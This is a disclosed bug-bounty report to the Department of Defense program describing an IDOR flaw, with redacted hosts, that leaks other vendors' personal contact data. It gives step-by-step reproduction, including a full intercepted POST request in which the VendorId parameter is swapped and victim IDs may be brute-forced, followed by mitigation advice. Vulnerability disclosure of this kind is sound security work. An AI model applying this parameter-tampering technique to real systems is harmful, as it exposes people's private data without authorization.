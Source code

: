 # IDOR leaking PII data via VendorId parameter

## Report Details
- **Report ID**: 1690044
- **URL**: https://hackerone.com/reports/1690044
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-09-02T20:43:55.324Z
- **Disclosed**: 2022-10-14T13:24:18.024Z

## Reporter
- **Username**: 696e746c6f6c
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Description:**
Dear DoD,

I found one bug on your domain from Hack US program:  █████
It's IDOR bug. Make sure to know that I didn't test many funcs here for IDOR. I didn't test for ATO (Account Takeover). But you should fix this.
 Here's the PoC:

██████████

Thank you DoD!

## Impact

An attacker could steal users information via IDOR and use it for phishing and more stuff maybe it can lead to ATOs (Accounts Takeovers).

## System Host(s)
███

## Affected Product(s) and Version(s)
Users  are affected.

## CVE Numbers


## Steps to Reproduce
1. Go to  ███████
2.  Make two accounts one attacker and one victim account.
3. Login as attacker account account. 
4. Go to my companies.
5. Scroll down there and you will see company contacts.
6. Click edit then turn your foxy proxy on and open your burp suit and save so you can intercept request.
7. Intercept your request. The request should look like this:

```javascript
POST /█████████/Vendor/Company/Contacts/SavePOC HTTP/1.1
Host: ███████
Cookie: .AspNetCore.Antiforgery.wZhPOrJ1UhI=; TS014b77bb=; .AspNetAuth=; .AspNetCore.Mvc.CookieTempDataProvider=; ASP.NET_SessionId=; TS0144f203=; CSRF-TOKEN=; .AspNetCore.Session=
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:104.0) Gecko/20100101 Firefox/104.0
Accept: */*
Accept-Language: hr,hr-HR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 647
Origin: https://██████████
Referer: █████████████/Vendor/Company/Profile/129111
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

EditPOCvm.Email=attacker@gmail.com&EditPOCvm.PositionTitleIds=10&EditPOCvm.Title=Pentester&EditPOCvm.FirstName=attacking&EditPOCvm.MiddleName=test&EditPOCvm.LastName=wearehackerone&EditPOCvm.PhoneNumber=13333333333333339&EditPOCvm.LanguageId=&EditPOCvm.Password=&EditPOCvm.ConfirmPassword=&userId=0&passChange=&EditPOCvm.PersonProfileId=&EditPOCvm.CitizenshipId=101&VendorId=<your id>&VendorPersonProfileId=<your id>&__RequestVerificationToken=&IsAdmin=false&X-Requested-With=XMLHttpRequest
```
8. Send request in repeater tab ( i will show that request in my PoC video)
9. Change VendorId parameter to victims VendorId parameter. 
10. You will get victims some information.
11. Also you need to login as victim too and intercept request if you want victims vendorId or brute force it.

## Suggested Mitigation/Remediation Actions
Web-applications should validate all untrusted input received with every HTTP request. Your applications should perform whitelist validation on each input, verifying that the incoming value meets your applications’ expectations pertaining to:
    Minimum or maximum length
Minimum or maximum bounds for numeric values
Acceptable characters
Data Types like string, date, integer, or rational
Set membership
Pattern such as phone number, social security, or employer ID
Using whitelist validation, also called Syntactic Validation, your applications will impose checks, such as the ones above, on each input  that must be satisfied, otherwise it is rejected. Whitelist checks merely certify the content of inputs instead of trying to decipher the meaning behind them.
Your tech teams can leverage Syntactic Validation with Logical Validation by adding checks to see if the input values make sense. Logical validation takes into account the meaning behind reference value and ensures values are consistent with design intent. For example:
    An “id” parameter may represent a customer identifier. Using logical validation, it may be checked to ensure authorized access by the user.
An “account” parameter may represent a user’s account. Using logical validation, it may be verified that the information displayed is that of the specific user’s.
Using Indirect References
Another way to combat IDORs is to design resources such as ids, names, and keys to be replaced with cryptographically strong random values. These values will correspond to the original values, and both are housed on the server so an application cannot expose a direct reference. These indirect references provide a more complex counter-attack methodology than logical validation, making it more difficult for hackers to substitute meaningful values for references.
Therefore, indirect references are the preferred strategy concerning sensitive information like loan and social security numbers. However, indirect references also make your website performance slightly worse since they influence the design of the site.
Access Control Checks
Access control checks ensure data is provided only to authorized users. Features of access control include:
    Instance-based security competencies which specify access control lists associated with domain objects.
Resource values in session and on submit are checked at a timed interval with stored values on the server.
Database checks to ensure information is authentic.
How To Implement IDOR Safeguards
The IDOR designs present vulnerabilities that allow hackers to potentially access personal information via substituted resources. In order to protect against a data breach at your company it’s important to implement syntactic and logical validation, indirect references, and access control checks. These safeguards require deep knowledge of your internal server and will therefore likely need to be executed by internal employees or long-term contractors.
In order to make sure your developers has the necessary skills to keep validations, references, and checks up-to-date and secure, your technology professionals need continuous and expert training. Try some of Avatao’s practical and hands-on exercises to help safeguard against IDORs!
guide



## Attachments
No attachments
